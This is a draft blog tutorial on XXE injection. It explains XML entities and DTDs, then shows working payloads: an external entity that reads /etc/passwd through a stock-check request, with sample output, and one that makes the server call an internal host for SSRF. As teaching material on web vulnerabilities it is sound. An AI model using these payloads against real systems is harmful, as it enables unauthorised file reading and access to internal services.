 ```yaml
---
layout: post
title:  "XXE Injection"
categories: Web App
tags: []
draft: true
---
```


# XXE Injection

XXE Injection is XML External Entity Injection is a web security vulnerability that allows an attacker to interfere with an application's processing of XML data. Often it allows an attacker to view files and interact with backend or external systems that the application can access. In some cases an attacker might be able to escalate an XXE injection to compromise the server or other backend infrastructure by leveraging the XXE to perform server-side forgery (SSRF).

## XML Entities

To understand how XXE works and how it occurs, we must first understand what XML is, what XML entities are, what a custom XML entity is and what an external XML entity is. We will cover this and once understood & covered we will continue on with our understanding of XXE injection.

### What is XML?

XML is Extensible Markup Language - XML is designed for the storing & transportation of data, it's relatively old and JSON is much more favoured in modern applications. XML is a bit like HTML in the sense that it uses a tree-like structure of tags & data however unlike HTML it does not use predefined tags and thus tags can be given names that describe the data being stored for example `<bigMeme>`

### What is an XML Entity?

XML entities are a way of representing an item of data within an XML document instead of using data itself. Various entities are built in to the specification of the XML language for example the entities `&lt;` and `&gt;` represent the characters `<and>`. These are "metacharacters" used to denote XML tags.

### What is Document Type Definition?

Before we discuss XML custom entities and external entities, we need to understand what Document Type Definition or DTD is. So, the XML DTD contains declarations that can define the structure of an XML document and the types of data values it can contain. We declare the DTD within the `<DOCTYPE>` element at the start of an XML document. The DTD can be fully self-contained within the document itself this is known as "internal DTD", it could equally be loaded from somewhere else known as "external DTD" it could also be the hybrid of the two.

### What are XML Custom Entities?

So now that we know what the DTD is, let's talk about custom XML entities. Let's look at an example of a custom entity.

`<!DOCTYPE foo [ <!ENTITY linxz "linxz is a memer" > ]>`

We can now call this custom entity with `&linxz;` within the XML document and it will be replaced with the value of `linxz is a memer` pretty cool!

### What are XML External Entities?

An external entity is like a custom entity however it is defined outside of the DTD unlike a custom entity which we define in the DTD. This allows us to define the entity somewhere else and use a URL to access it - pretty cool! However, external entities are the reason we have XXE based attacks which is not so cool!

We declare an external entity using the `SYSTEM` keyword followed by a URL from where the entity should be loaded an example would be.

`<!DOCTYPE foo [ <!ENTITY ext SYSTEM "http://linxz.co.uk" > ]>`

We could also load from a file using the `file://path` method and it works the same way just its loaded from a file instead :p

## How does an XXE Vulnerability occur?

Some web applications use XML to transmit data between the browser and the server, this is typically done either via a standard library or API which will help to process the XML data. XXEs arise because the XML specification contains various potentially dangerous features and standard parsers support these features even if they are not typically used by the application.

As mentioned, external entities are a type of custom entity which are defined outside of the DTD where they are declared. In short the attack occurs when XML input containing a reference to an external entity is processed by a poorly configured XML parser. There's a few types of XXE attacks, here we will talk about:
    - Exploiting XXE to retrieve files.
    - Exploiting XXE to perform SSRF attacks.
    - Exploiting blind XXE to exfiltrate data out-of-band.
    - Exploiting blind XXE to retrieve data via error messages.

### Exploiting XXE to Retrieve Files

In order to use an XXE Injection attack to retrieve an arbitrary file from the server we need to modify the submitted XML in two ways:
    1. Introduce/Edit a `DOCTYPE` element that defines an external entity containing the path to the file
    2. Edit a data value in the XML that is returned to the applications response in order to make use of the external entity in step 1.

Lets look at an example of XXE against an application that has no defences against an XXE injection attack.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck><productId>381</productId></stockCheck>
```

Here we have an XML file which is storing the stock level of an item in the XML, this value will be checked by the application when someone tries to buy an item for example. But for us, we can easily take advantage of this by sending the following to the server.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck> 
```

As you can see in the above XML, what we're doing is asking the XML (using an external entity) to give us `/etc/passwd/` back and we're calling the custom entity in the `<productID>` value. In this case our web app is going to return the the following data!

```bash
Invalid product ID: root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
```

As you can see, we now have the contents of `/etc/passwd` that's good! This type of attack can be quite powerful and is fairly simple to execute! It is worth noting that in the real world an XML application will have **a lot** of data. In order to test for XXE in these cases we must test each data node in the XML individually by making use of our defined external entity.

### Exploiting XXE to perform SSRF Attacks

We've never talked about Server-Side Request Forgery attacks before but simply put an SSRF allows us to induce a server-side application to make HTTP requests to any URL that the server can access, this can be very dangerous and so XXEs that allow us to perform SSRFs can in turn be very dangerous. In order to carry out an XXE to perform an SSRF we use an external entity that defines the URL that we want to target and then use that defined entry in a data value. If we can do this within a data value that is returned in the applications response then we will be able to view the response from the URL and thus gain a two-way interaction with the backend system. If not, we may only be able to perform blind SSRF attacks, which are still critical however they are a bit more difficult for an attacker as he does not get to see the response.

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.linxz.com/"> ]> 
```

In the above example you can see we are defining an external entity which will cause the server to make a HTTP request to an internal system, in this case "internal.linxz.com" within our infrastructure. You can probably now see/understand why a non-blind version of this can be absolutely devestating!

